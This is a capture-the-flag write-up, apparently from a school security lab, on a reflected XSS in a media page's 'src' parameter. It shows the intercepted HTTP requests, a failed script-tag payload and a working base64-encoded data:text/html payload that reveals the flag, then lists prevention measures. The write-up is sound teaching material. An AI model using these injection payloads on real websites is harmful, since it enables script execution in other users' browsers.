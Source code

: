 # Reflected XSS
- a type of security vulnerability where an attacker can inject malicious scripts into content that is then served to other users
- when a user visits the affected web page, the malicious script is executed in their browser
- the malicious script is not stored on the server; instead, it is part of a request sent to the server and then reflected back to the user in the server's response
- https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting

<b>keywords</b>: XSS advanced<br>
<b>attacked site</b>: http://borntosec.42/?page=media&src=nsa

## Exploit
One of the images on the main page contains a hyperlink that leads to a different subsite:
``` html
http://borntosec.42/?page=media&src=nsa
```
When we intercept the GET request to this subsite using <code>Burp Suite</code>, we notice that the <code>&src=</code> parameter can be manipulated:
``` http
GET /?page=media&src=nsa HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
We attempt to inject a JS payload into the URL:
``` http
GET /?page=media&src=data:text/html;<script>alert('XSS')</script> HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
This approach does not work, so we try encoding the payload in base64 directly using <code>Burp Suite</code>:
``` http
GET /?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4= HTTP/1.1
Host: 192.168.56.106
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: I_am_admin=68934a3e9455fa72420237eb05902327
Upgrade-Insecure-Requests: 1
```
Accessing the URL with the encoded payload triggers the JS and reveals the flag:
```
The flag is : 928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d
```

## Flag
928d819fc19405ae09921a2b71227bd9aba106f9d2d37ac412e9e5a750f1506d

## Exploit prevention
- validate user input
- encode output to prevent the browser from interpreting it as executable code
- disable inline JS
- validate and encode URLs
